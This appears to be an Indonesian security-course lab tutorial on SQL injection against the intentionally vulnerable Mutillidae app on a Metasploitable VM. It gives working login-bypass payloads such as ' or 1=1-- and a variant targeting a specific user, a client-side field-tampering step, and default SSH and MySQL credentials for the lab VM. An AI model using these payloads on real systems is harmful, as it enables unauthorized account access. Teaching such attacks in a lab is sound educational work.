 Lesson 5
--------
### Section 8: SQL Injection: Single Quote Test On Username Field
- **Step 1**    : Buka Login/Register
    ![](/assets/lesson-5/login-register.png)
- **Step 2**    : Ketik `'` di kolom **Name**    
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/quote_test.png)
- **Step 4**    : Anda akan mendapatkan error, jika terjadi error setelah anda login dengan **Name** `'`, berarti backend dari sistem rentan terhadap SQL Injection
    ![](/assets/lesson-5/quote_test_error.png)
        - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username=''' AND password=''
        ```
    - Query Normal:
        ```
        SELECT * FROM accounts WHERE username='admin' AND password='adminpass'
        ```
    
### Section 9: SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
        ```
    - Query yang sebenarnya dikerjakan:
        ```
        SELECT * FROM accounts WHERE username='' or 1=1
        ```
    
### Section 9: SQL Injection: Single Quote Test On Password Field
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada element **type**.
    ![](/assets/lesson-5/inspect-password-to-text.png)
- **Step 6**    : Ketik `'` di kolom **Password**.
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/inspect-password-not-obfuscated.png)
    - Anda akan mendapatkan error
        ![](/assets/lesson-5/password-login-error.png)
    - Query di backend menjadi error, mengindikasikan bahwa backend dari sistem rentan terhadap SQL Injection.
    - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username='samurai' and password='''
        ```
    - Query Normal:
        ```
        SELECT * FROM accounts WHERE username='samurai' AND password='samurai'
        ```
        
### Section 10: SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada element **type**.
    ![](/assets/lesson-5/inspect-password-to-text.png)
- **Step 6**    : Ketik `' or 1=1-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![]/assets/lesson-5/non-obfused-pass-1.png)
    - Anda akan tetap terlogin sebagai admin bukan samurai, Karena Admin berada pada urutan atas dari hasil query. Hal ini disebabkan oleh desain dari program Multilidae.
        ![](/assets/lesson-5/password-login-admin.png)
- **Step 8**    : Logout

### Section 11: Single Quote Test On Password Field (Obtain Access #3)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada elemen **type**. Ganti elemen maxlength menjadi `50` dan elemen size menjadi `50`
    ![](/assets/lesson-5/inspect-password-size.png)
- **Step 6**    : Ketik `' or (1=1 and username='samurai')-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/non-obfused-pass-2.png)
    - Anda akan berhasil login sebagai `samurai`
        ![](/assets/lesson-5/samurai-logged-in.png)
    - Query yang dihasilkan
        ```
        SELECT * FROM accounts WHERE username='samurai' AND password='' or (1=1 and username='samurai')-- '
        ```

### Database Practice
- **Step 1**    : SSH Metasploitable dengan username `msfadmin` dan password `msfadmin`.
    ```
    ssh msfadmin@10.151.36.64
    ```
- **Step 2**    : Login MySQL dengan user `root` tanpa password
    ```
    mysql -u root
    ```
- **Step 3**    : Pilih database `owasp10`
    ![](/assets/lesson-5/db.png)
- **Step 4**    : Lihat daftar tabel dalam database
    ```
    show tables;
    ```
- **Step 5**    : Lihat isi semua kolom dari tabel `accounts`
    ```
    desc accounts;
    ```
    ![](/assets/lesson-5/db_table.png)
- **Step 6**    : Lihat semua data dari tabel `accounts`
    ```
    select * from accounts;
    ```
     ![](/assets/lesson-5/db_table_records.png)
- **Step 7**    : Contoh SQL Injection
    - `select * from accounts where username = ''  and password = '';`
    - `select * from accounts where username = 'samurai'  and password = 'samurai';`
    - `select * from accounts where username = 'samurai'  and password = 'wrongpassword';`
    - `select * from accounts where username = 'samurai';-- and password = 'wrongpassword';`
    ![](/assets/lesson-5/db_query.png)
- **Step 8**    : Mencoba hasil dari Single Quote(')
    - `select * from accounts where username = '''  and password = '';`, dari **section 8, step 2**.
    - `';`, dari section 8, step 2.
    - `select * from accounts where username = '' or 1=1; --   and password = '';`, dari **section 9, step 2**.
    - `select * from accounts where username = 'samurai' and password = '' or 1=1; -- ';`, dari **section 10, step 6**.
    ![](/assets/lesson-5/db_query_1.png)
    - `select * from accounts where username = 'samurai' and password = '' or (1=1 and username = 'samurai'); -- ';`, dari **section 11, step 6**.
    ![](/assets/lesson-5/db_query_2.png)

### Proof of Lab
![](/assets/lesson-5/proof_of_lab.png)
    






    
